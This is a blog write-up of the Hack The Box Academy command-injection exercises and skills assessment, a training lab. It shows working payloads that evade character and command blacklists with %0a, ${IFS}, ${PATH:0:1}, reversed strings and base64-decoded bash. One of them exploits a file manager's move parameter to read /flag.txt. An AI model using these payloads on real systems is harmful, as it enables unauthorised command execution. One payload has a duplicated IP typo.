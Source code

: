 ```yaml
---
layout: post
title:  "Hack The Box - Academy - Command Injections"
description: "Follow this comprehensive walkthrough of the Hack The Box Academy Command Injection Skills Assessment. Master command injection techniques to exploit vulnerable web applications with expert guidance from Zwarts Sec, perfect for boosting your penetration testing skills and preparing for HTB challenges."
date:   2024-10-19 13:32
image:  /images/htb/command-injection/logo.png
tags:   [command-injection,cbbh]
categories: [htbacademy]
---
```


>
<b>Links:</b>
<br/>
<a href="https://academy.hackthebox.com/module/109/section/1031">Command Injection</a><br/>
<a href="https://jacozwarts.github.io/images/htb/command-injection/Command_Injections_Module_Cheat_Sheet.pdf">Command Injection - Cheat Sheet</a><br/>
<a href="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-without-space">PayloadsAllTheThings - Command Injection - Bypass without Space</a>

<hr/>

### Bypassing Other Blacklisted Characters - Exercises
#### Use what you learned in this section to find name of the user in the '/home' folder. What user did you find?
A gotcha I ran into was I didn't add a `space` between the `;` and command I'm waas trying to execute e.g.
`Incorrect payload: 127.0.0.1${LS_COLORS:10:1}$(rev<<<'imaohw')` <br/><br/>
`Correct payload with a encoded \n (%0a)`
```
127.0.0.1${LS_COLORS:10:1}%0a$(rev<<<'imaohw')
```
![Bypassing other blacklisted characters exercise gotcha](/images/htb/command-injection/bypassing-other-blacklisted-characters-gotcha.png)

#### Final payload:
Initially, I tried the following command but didn't retrieve the user in `/home`: `127.0.0.1${LS_COLORS:10:1}%0a{ls,-la}%0a${PATH:0:1}home`. The issue stemmed from using the encoded newline character (`%0a`) immediately after `{ls,-la}`, which caused the command to execute incorrectly.

`Correct payload:`
```
127.0.0.1${LS_COLORS:10:1}%0a{ls,-la}${IFS}${PATH:0:1}home
```
<hr/>

### Bypassing Blacklisted Commands
#### Use what you learned in this section find the content of flag.txt in the home folder of the user you previously found.
```
127.0.0.1${LS_COLORS:10:1}%0a$(rev<<<'tac')${IFS}${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt
```
<hr/>

### Advanced Command Obfuscation

#### Exercise: Can you test the below command to see if it works on your Linux VM, and then try to avoid using filtered characters to get it working on the web application?
`$(a="WhOaMi";printf %s "${a,,}")`<br/><br/>
First, we tested individual characters to identify which ones were filtered, such as the semicolon (`;`), space, pipe (`|`), ampersand (`&`), etc. In our case, all of these characters were blocked except for the newline character (`%0a`). To proceed, we needed to modify our payload to avoid using these filtered characters. Another solution is to `Base64 encode` the payload to bypass the filtering<br/><br/>

**Updated command without Base64 encoding:**
```
127.0.0.1%0a$(a="WhOaMi"%0aprintf${IFS}%s${IFS}"${a,,}")
```
**Updated command with Base64 encoding:**
```
127.0.0.1%0abash<<<$(base64%09-d<<<JChhPSJXaE9hTWkiO3ByaW50ZiAlcyAiJHthLCx9Iik=)
```

#### Find the output of the following command using one of the techniques you learned in this section: find /usr/share/ | grep root | grep mysql | tail -n 1
**Execute the below command to base64 encode the payload:**
```
echo -n "find /usr/share/ | grep root | grep mysql | tail -n 1" | base64
```

```
127.0.0.1127.0.0.1%0abash<<<$(base64%09-d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)
```
<hr/>

## Skills Assessment
><b>Overview:</b>
You are contracted to perform a penetration test for a company, and through your pentest, you stumble upon an interesting file manager web application. As file managers tend to execute system commands, you are interested in testing for command injection vulnerabilities.
<br/><br/>
Use the various techniques presented in this module to detect a command injection vulnerability and then exploit it, evading any filters in place.

### What is the content of '/flag.txt'?
Start by opening the target in your browser and ensure Burp Suite is intercepting all requests. Log in with the provided credentials: `guest:guest`.
![Login](/images/htb/command-injection/command-injection-skills-assessment-login.png)

Upon examining the target’s features, I identified the following functionalities:
- File Manager
![File Manager](/images/htb/command-injection/command-injection-skills-assessment-file-manager.png)
- Search Functionality
![Search Functionality](/images/htb/command-injection/command-injection-skills-assessment-search.png)
- Advanced Search
![Advanced Search Functionality](/images/htb/command-injection/command-injection-skills-assessment-advanced-search.png)
- View File
![View File](/images/htb/command-injection/command-injection-skills-assessment-view-file.png)
- Move File
![Move File](/images/htb/command-injection/command-injection-skills-assessment-move-file.png)
- Direct Link
![Search Functionality](/images/htb/command-injection/command-injection-skills-assessment-direct-link.png)
- Download File
![Search Functionality](/images/htb/command-injection/command-injection-skills-assessment-download-file.png)

I then intercepted and analyzed these features’ requests through Burp Suite, where I observed that each request has varying parameters, such as:

```
GET /index.php?to=&view=51459716.txt&quickView=1
```
```
GET /index.php?to=&from=51459716.txt
```
```
GET /index.php?to=&dl=51459716.txt
```
```
POST /index.php?to=

...

ajax=true&content=514&path=.&type=search
```
```
GET /index.php?to=&from=605311066.txt
```
```
GET /index.php?to=&from=605311066.txt&finish=1&move=1
```
### Testing for Command Injection
I tested the parameters mentioned above for potential command injection vulnerabilities and found that the `to` and `from` parameters in the 'Move File' request are vulnerable. The next step is to identify which injection operators are allowed. You can refer to the command injection <a href="https://jacozwarts.github.io/images/htb/command-injection/Command_Injections_Module_Cheat_Sheet.pdf">Cheat Sheet</a> to test various operators.

![Testing To Parameter](/images/htb/command-injection/command-injection-skills-assessment-move-file-to-parameter.png)

![Testing From Parameter](/images/htb/command-injection/command-injection-skills-assessment-move-file-from-paramter.png)

![Testing Operator](/images/htb/command-injection/comman-injection-skills-assessment-injection-operators.png)

I discovered that the operator `%26%26` is accepted. Based on the error message, it’s clear the server is using the mv command.
![Valid Operator](/images/htb/command-injection/command-injection-skills-assessment-valid-injection-operator.png)
### Command Injection Payload
```
%26%26whoami
```
![Whoami Command is blocked](/images/htb/command-injection/command-injection-skills-assessment-whoami-blocked.png)

Since whoami is blocked, I’ll encode it using base64. Here’s how to encode the whoami command:

```
echo -n "whoami" | base64
```
**Then replace the space character with a tab (%09):**
```
bash<<<$(base64%09-d<<<"d2hvYW1p")
```
When running this, I encountered the error: missing destination. So, I’ll apply the payload in the to parameter as follows:
![Missing Destination](/images/htb/command-injection/command-injection-skills-assessment-missing-destination-error.png)

```
/index.php?to=tmp%26%26bash<<<$(base64%09-d<<<"d2hvYW1p")&from=696212415.txt&finish=1&move=1
```
### Gotcha:
Once you move a file, it cannot be moved again. To get around this, you’ll need to change the filename in the `from` parameter.

![Whoami Result](/images/htb/command-injection/command-injection-skills-assessment-whoami-result.png)

Now that we’ve successfully executed the `whoami` command, the next goal is to read the directory contents using `ls -la`. First, base64 encode the command:

```
echo -n "ls -la" | base64
```

```
bash<<<$(base64%09-d<<<"bHMgLWxh")
```
Update the `from` filename from `696212415.txt` to `787113764.txt` and rerun the payload.

![Read files in directory](/images/htb/command-injection/command-injection-skills-assessment-read-files-result.png)

### Reading the flag.txt File
Finally, let’s try to read the `flag.txt` file. Base64 encode the following:
```
echo -n "cat ${PATH:0:1}flag.txt" | base64
```
```
bash<<<$(base64%09-d<<<"Y2F0IC9mbGFnLnR4dA==")
```
**Change the `from` file name and test the payload.**
![Reading flag.txt content](/images/htb/command-injection/command-injection-skills-assessment-flag-result.png)
<hr/>